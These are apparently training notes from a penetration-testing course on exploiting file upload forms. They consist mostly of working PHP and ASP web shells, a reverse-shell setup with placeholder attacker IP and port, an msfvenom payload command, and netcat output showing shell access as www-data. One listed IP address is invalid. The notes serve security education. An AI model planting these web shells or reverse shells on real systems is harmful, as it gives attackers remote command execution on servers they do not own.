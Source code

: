 #### 

#### File Upload Attacks

### Upload Exploitation

# Web Shells

## Writing Custom Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

```asp
<% eval request('cmd') %>
```

## Reverse Shell

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

```bash
ndefstathiou@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Generating Custom Reverse Shell Scripts

```bash
ndefstathiou@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

```bash
ndefstathiou@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 

# 

### Questions

